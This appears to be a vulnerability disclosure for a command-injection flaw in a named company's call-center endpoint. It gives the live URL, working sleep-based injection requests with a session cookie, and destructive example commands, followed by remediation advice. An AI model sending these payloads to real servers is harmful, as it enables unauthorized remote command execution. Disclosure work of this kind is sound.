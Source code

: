 # Vulnerability Title
**Remote Code Execution (RCE) Vulnerability in Aishida Co., Ltd. Call Center System**  


# Vulnerability Overview
A Remote Code Execution (RCE) vulnerability exists in the interface of Aishida Co., Ltd.'s call center system. Attackers can exploit this vulnerability by crafting malicious request parameters to execute arbitrary shell commands on the target server, thereby gaining full control of the system. The root cause is insufficient input validation, allowing attackers to inject command separators (e.g., `||`) to trigger malicious code execution.  


# Asset Verification
## Company Profile
Aishida Co., Ltd. (Stock Code: 002403), founded in 1978, is a publicly listed enterprise specializing in the R&D, manufacturing, and marketing of cookware, small kitchen appliances, and industrial robots. With nearly 10,000 employees, the company achieved over 3 billion RMB in sales revenue in 2021. It operates production facilities in Wenling, Jiashan, Hubei, and Shanghai, and maintains a comprehensive sales network covering over 60,000 terminals (direct sales + distributors), e-commerce platforms, live streaming, social communities, group purchasing, TV shopping, cross-border e-commerce, and OEM exports. Brand ambassadors include Sun Li and Ren Jialun.  

Aishida has participated in drafting 20 national or industry standards for cookware, including non-stick pans, smokeless pans, aluminum pressure cookers, and stainless steel pressure cookers. The GB 15066—2004 stainless steel pressure cooker standard, co-drafted by Aishida, won the China Standards Innovation Contribution Award. The company is recognized as a National Intellectual Property Pilot Enterprise and a National Torch Program Key High-Tech Enterprise. Guided by its mission, "Manufacturing Healthy Kitchen Products to Enhance Human Life Quality," Aishida strives to promote green kitchens and aims to evolve into a dual-driven enterprise integrating cookware, home goods, consumer products, and intelligent manufacturing.  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741960859990-099ce111-60ab-434b-8922-7ca6c6af26ea.png)  

## Corporate Information
### ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961216972-90c4cb20-8b40-4e15-a67c-23f0972ffaac.png)
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961341526-993f929b-b0c0-4640-a63d-966165b11ee1.png)  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961255910-c1d5af07-3ddd-45af-ac8c-04f6fbde7912.png)  

+ **Chinese Name:** 爱仕达股份有限公司  
+ **English Name:** Aishida Co., Ltd.  
+ **Website:** [http://www.chinaasd.com](http://www.chinaasd.com)  
+ **Email:** 445778987@qq.com


# Technical Analysis
## Vulnerability Location
**Affected Endpoint:**  

```http
http://www.asd.com.cn/doscall/weixin/open/amr2mp3?file=[User Input]  
```

## Root Cause
1. **Lack of Input Sanitization:** The `file` parameter is directly concatenated into system commands (e.g., using `system()` or `popen()` functions).  
2. **Command Injection Logic:**  
The server expects to execute commands such as:  

```bash
ffmpeg -i [User Input].amr output.mp3  
```

If an attacker injects `a 'aaabbbcccddd || sleep 5 ||`, the executed command becomes:  

```bash
ffmpeg -i a 'aaabbbcccddd || sleep 5 ||.amr output.mp3  
```

The shell interpreter treats `||` as command separators, causing `sleep 5` to execute independently.


# Proof of Concept (PoC)
## PoC 1: Delay via Sleep Command
### Sleep for 5 Seconds
1. **PoC Request:**  

```http
http://www.asd.com.cn/doscall/weixin/open/amr2mp3?file=a 'aaabbbcccddd || `sleep 5`   ||  
```

2. **URL-Encoded Request:**  

```http
http://www.asd.com.cn/doscall/weixin/open/amr2mp3?file=a%20%27aaabbbcccddd%20||%20`sleep%205`%20%20%20||  
```

3. **Validation:**  
    - Observe response time: A 5-second delay confirms successful execution.  
    - Replace `sleep 5` with other commands (e.g., `id`) to retrieve system user information.

### Burp Suite Request
```http
GET /doscall/weixin/open/amr2mp3?file=a%20%27aaabbbcccddd%20||%20`sleep%205`%20%20%20|| HTTP/1.1  
Host: www.asd.com.cn  
Upgrade-Insecure-Requests: 1  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate, br  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: PHPSESSID=2s9mg0ocf8hsvru6rfh9agvhh7  
x-forwarded-for: 127.0.0.1  
Connection: keep-alive  
```

### Screenshots
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961160896-35b79252-647c-4447-ac0b-b75b87a5b4c1.png)  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961815540-79db6fd6-544e-44fc-aa78-6d7471e2cae6.png)  


## PoC 2: Sleep for 10 Seconds
```http
GET /doscall/weixin/open/amr2mp3?file=a%20%27aaabbbcccddd%20||%20`sleep%2010`%20%20%20|| HTTP/1.1  
Host: www.asd.com.cn  
Upgrade-Insecure-Requests: 1  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate, br  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: PHPSESSID=2s9mg0ocf8hsvru6rfh9agvhh7  
x-forwarded-for: 127.0.0.1  
Connection: keep-alive  
```

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961982633-d84201b4-5d26-421b-b924-ef003e78fdd6.png)  


# Impact Assessment
1. **Full Server Compromise:** Attackers can execute commands like `rm -rf /` or `wget malicious_script`, leading to data breaches or system crashes.  
2. **Lateral Movement:** Compromised servers can be used as pivots to attack internal databases or other systems.  
3. **Compliance Risks:** Violates Articles 21 and 25 of China’s Cybersecurity Law, exposing the company to legal penalties.  
4. **Reputation Damage:** Data breaches severely harm brand credibility.


# Remediation Strategies
## 1. Input Filtering & Whitelisting
+ **Regex Filtering:** Restrict the `file` parameter to valid characters (e.g., `^[a-zA-Z0-9_\-\.]+$`), blocking inputs containing `|`, `&`, `;`, etc.  
+ **Predefined File List:** Match input against a predefined list if `file` corresponds to fixed resources.

## 2. Secure Command Execution
+ **Parameterized APIs (Python Example):**  

```python
subprocess.run(["ffmpeg", "-i", user_input + ".amr", "output.mp3"], shell=False)  
```

+ **Avoid Command Concatenation:** Refrain from using high-risk functions like `os.system()`.

## 3. Least Privilege
+ **Non-root Execution:** Run web services under a non-root user with restricted filesystem access.

## 4. Emergency Mitigation
+ **WAF Rules:** Block requests containing keywords like `sleep`, `&&`, `||`.  
+ **Log Monitoring:** Alert on suspicious activities (e.g., `/bin/sh` invocations).

## 5. Long-term Hardening
+ **Code Audit:** Review all interfaces for similar vulnerabilities.  
+ **Penetration Testing:** Conduct regular third-party black-box testing.


**Formatting Notes:**  

1. Use ` to separate sections for clarity.  
2. Specify code block languages (e.g., `bash`, `http`) for readability.  
3. Include technical details (e.g., regex patterns, code samples) in remediation strategies.  
4. Supplement PoC sections with screenshots to enhance credibility.

